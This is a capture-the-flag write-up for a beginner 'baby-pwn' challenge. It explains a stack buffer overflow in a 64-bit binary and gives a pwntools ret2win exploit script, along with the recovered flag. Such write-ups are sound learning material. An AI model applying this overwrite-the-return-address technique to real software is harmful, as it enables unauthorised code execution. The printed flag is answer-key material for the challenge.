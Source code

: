 # baby-pwn-0.5
> Write-up author: vreshco
## DESCRIPTION:
Tahukah kamu kalau kita bisa mengendalikan return address menggunakan vulnerability buffer overflow dan mengakibatkan kita bisa mengendalikan alur program.

koneksikan menggunakan:
## HINT:
- NONE
## STEPS:
1. First, download the file given, then check the file type.

> RESULT - 64 bit binary file, not stripped.

![image](https://user-images.githubusercontent.com/70703371/213631824-6b14f82e-4b9b-4153-b117-657a175ad4b7.png)


2. Now check the binary's protection.

> RESULT - Partial RELRO, No canary found, No PIE

![image](https://user-images.githubusercontent.com/70703371/213631927-66d3eb00-f8c0-48c9-a590-d4bfc1c6bb99.png)


3. Now let's straight to decompile the binary.
4. Open the `vuln()` function.

![image](https://user-images.githubusercontent.com/70703371/213632167-c4519e0e-b4e8-40b5-822a-7d745eb6013c.png)


5. Based from it we can see there's a bufferoverlow, the `local_28` accetps 32 bytes but the fgets accept 100. We can utilize that.
6. I see there's a `flag()` function, but the it's not called at the vuln, hence we can use the `ret2win` concept. Atfer overwrite the RBP value we need to add the flag offset at the end of our payload.
7. To solve this challenge i used pwntools.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:  
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)


exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()
sh.recvuntil(b'\n')
offset = b'A' * 40
p = flat([
    offset,
    0x4012f2
])
#ffset += p64(1)
sh.sendline(p)
sh.interactive()
```

> OUTPUT - run it remotely

![image](https://user-images.githubusercontent.com/70703371/213632788-309d502c-dda8-4e58-a679-b8693f5c76d3.png)


8. Got the flag!

## FLAG

```
TCP1P{changing_the_return_address_0_5_461821934561283}
```



